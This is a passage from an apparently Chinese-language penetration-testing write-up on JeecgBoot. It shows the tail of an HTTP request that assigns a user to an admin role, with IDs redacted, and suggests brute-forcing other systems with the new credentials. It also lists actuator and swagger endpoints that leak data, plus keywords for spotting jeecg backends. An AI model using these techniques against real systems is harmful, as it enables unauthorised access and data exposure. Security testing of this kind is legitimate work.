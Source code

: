 ```
Te: trailers
Connection: close
Content-Type: application/json
Content-Length: 96

{
&#34;roleId&#34;:&#34;xxxxxxxxxxx&#34;,
&#34;userIdList&#34;:[
&#34;xxxxxxxxxxxxxxxx&#34;
]

}
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9eVPUhaU1q56Npia6uezsXdbIMhfVAHxAQ3bEiapib1YmQiazBku7S0icEyA/640?wx_fmt=png&from=appmsg "")  
  
  
这样就成功创建了这个系统的admin管理员的账户了，后面的思考就是直接使用创建的账户密码，去尝试爆破登陆其他系统  
  
  
  
**0x6 其他jeecg小技巧**  
  
  
  
下面再给大家总结下jeecg的其他打法小技巧  
  
  
一、常见的接口敏感信息泄露：  
  

```
/v2/api-docs
/swagger-ui.html
/env

//获取参数信息
/actuator
/mappings
/metrics
/beans
/configprops
/actuator/metrics
/actuator/mappings
/actuator/beans
/actuator/configprops
/actuator/httptrace
```

  
二、常见jeecg框架接口关键字：  
  
  
像看到下面的几个关键字，首先需要想到使用jeecg去打，因为很多现在直接把jeecg关键字给魔改了  
  

```
jeecg/

api/sys/

sys/user
```
